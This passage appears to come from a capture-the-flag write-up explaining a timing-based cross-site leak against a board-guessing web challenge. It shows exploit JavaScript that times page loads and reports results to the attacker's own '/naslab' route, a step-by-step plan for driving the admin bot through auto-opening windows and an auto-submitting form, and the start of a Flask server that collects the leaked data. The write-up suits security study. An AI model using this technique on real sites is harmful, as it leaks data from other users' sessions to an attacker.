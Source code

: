 					setTimeout(() => {
						measure();
					}, 0);
					
				}catch(e){
	
					var time = performance.now() - t;
					let is_bomb = false;
					
					if (time > limit) {
						is_bomb = true;
					}
					
					console.log("is_bomb", is_bomb)
					fetch("/naslab?is_bomb="+is_bomb + "&guess=" + guess)

					if (is_bomb == false && guess < 48) {
						document.location.href = "/?guess=" + (parseInt(guess) + 1) + "&time=" + time
					}
				}
			}
	
		measure()
		}, 100)
		
	</script>
</html>
{{< /code >}}

The strategy is:
- Redirect the bot to _pwn.html_ through the *checkboard* function.
- Once _pwn.html_ is visited, it will open automatically two new windows: one to the `/clone` route of the service to clone our board (so the bot now has the same board as us), and the other to the exploit _index.html_.
- The _index.html_ exploit will contain an auto-submitting form to the `/guess` route of the service, providing the position of the card we want to reveal.
- _index.html_ will open another window to the `/board?xray=1` route of the service and measure the loading times. Through experimentation, we know that if the loading time is greater than `300ms`, the guess was a bomb.
- index.html_ will send a request to our route `/naslab`, which will inform us if the guess was a bomb.

Note that if you have a bad board, you can visit the `/newboard` route in the service to get a new board without losing the streak. A board can be cloned up to 5 times, so we can reveal the position of only 5 bombs per game.

{{< code language="python" title="Flask server for serve the exploit and get the leak from bot" id="12" expand="Show" collapse="Hide" isCollapsed="true" >}}
from flask import Flask, request, render_template, render_template_string

import requests

app = Flask(__name__)

import logging

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)
